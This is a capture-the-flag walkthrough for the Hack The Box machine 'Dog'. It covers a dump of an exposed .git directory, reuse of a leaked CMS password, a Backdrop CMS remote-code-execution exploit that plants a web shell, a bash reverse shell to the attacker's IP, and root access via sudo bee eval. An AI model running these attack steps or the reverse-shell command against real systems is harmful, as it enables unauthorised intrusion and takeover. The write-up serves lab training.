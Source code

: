 # 🐾 Hack The Box - Dog
![Screenshot](https://imgur.com/7MgR1KL.png)

### 🌐 Machine Information
- **IP:**  10.10.11.58
- **OS:** Linux

### 🧭 Information Gathering
- I begin by scanning the target machine using Nmap to identify open ports and running services: `nmap -A -p- 10.10.11.58 -oN nmap_scan`
![Screenshot](https://imgur.com/MNXz0uh.png)
- Nmap Results 2 open ports and 1 interesting finding: `22 (ssh)`, `80 (HTTP)` and `.git` is exposed
- To make the domain easier to access, I added the following line to /etc/hosts: `10.10.11.58 dog.htb`
![Screenshot](https://imgur.com/aBtUadM.png)
- Browsing to http://dog.htb, I found a Backdrop CMS login page
![Screenshot](https://imgur.com/K84alMF.png)

### 📂 Git Repository Dump & Initial Access
- Since the .git directory was publicly accessible, I used git-dumper to retrieve the full source code: `git-dumper http://dog.htb gitdump`
![Screenshot](https://imgur.com/m1CD9uj.png)
- Once dumped, I reviewed the contents and discovered database credentials in `settings.php` 
![Screenshot](https://imgur.com/nE3dinF.png)
- I then searched the codebase for email addresses using: `grep -rn "dog"`
- This revealed an email address
![Screenshot](https://imgur.com/hpfeNIb.png)
- I attempted to log into the CMS using the email and the MySQL password found earlier: `tiffany@dog.htb:BackDropJ2024DS2024`
![Screenshot](https://imgur.com/DKYpuzX.png)
- It worked.

### 🧩 Identifying CMS Version & Exploiting RCE
- After logging in, I navigated to the CMS status page: `http://dog.htb/?q=admin/reports/status`
![Screenshot](https://imgur.com/tPFSSoT.png)
- The version identified was Backdrop CMS 1.27.1
- Using searchsploit, I looked for known vulnerabilities: `searchsploit backdrop 1.27.1`
![Screenshot](https://imgur.com/S08xDJK.png)
- One exploit offered remote code execution (RCE). I used the script from Exploit-DB (Locate it through the path provided by searchsploit): `python3 52021.py http://dog.htb`
![Screenshot](https://imgur.com/50sfPPU.png)
- Before uploading the malicious module, I modified the module info (the file with the .info extension) for easy identification. 
- Before:
![Screenshot](https://imgur.com/XSbZoYD.png)
- After:
![Screenshot](https://imgur.com/oZEDlWu,png)
- I then manually uploaded it at: `http://dog.htb/?q=admin/installer/manual`
![Screenshot](https://imgur.com/5yAEwk2.png)
**Note:** I converted the zip file to .tar.gz, as .zip uploads were blocked.
![Screenshot](https://imgur.com/pWAoHIF.png)
- Once installed, I accessed the shell via: `http://dog.htb/modules/shell/shell.php`
![Screenshot](https://imgur.com/pdKzR0W.png)
- To get a reverse shell on my local machine i used this method:
Attacker (listener): `nc -lvnp 4444`
Target (shell): `bash -c 'bash -i >& /dev/tcp/10.10.14.9/4444 0>&1'`
**Note:** `10.10.14.9` is my ip
![Screenshot](https://imgur.com/8Dg5EWG.png)

### 👤 Privilege Escalation to User
- In `/home`, there were two users: `jobert` and `johncusack`. The `user flag` belonged to `johncusack`, but I didn't have direct access.
![Screenshot](https://imgur.com/BToevl6.png)
- I tried switching users with the database password found earlier: `su johncusack`

![Screenshot](https://imgur.com/3b388rm.png)
- It worked. After switching, I upgraded the shell for better usability: `script /dev/null -c bash`
- I then accessed the user flag.

![Screenshot](https://imgur.com/wmXeXqT.png)

### 🔐 Privilege Escalation to Root
- Running `sudo -l` revealed: `(ALL) NOPASSWD: /usr/local/bin/bee`
![Screenshot](https://imgur.com/yAoWqxL.png)
- Executing `bee` showed a PHP evaluation tool. One of its features, `eval`, allowed arbitrary PHP execution. 
![Screenshot](https://imgur.com/8qtDuGn.png)
- My initial attempt failed because it required a valid project root.
![Screenshot](https://imgur.com/t7NgCYy.png)
- After some trial and error, I found the correct usage: `sudo /usr/local/bin/bee --root=/var/www/html eval 'system("bash");'`
- It turns out I had to specify the Backdrop root directory, which is where the Backdrop CMS is located: `/var/www/html`
![Screenshot](https://imgur.com/4i9nzQS.png)
- This granted a root shell. From there, I read the root.txt and captured the root flag.

![Screenshot](https://imgur.com/thbiBzV.png)

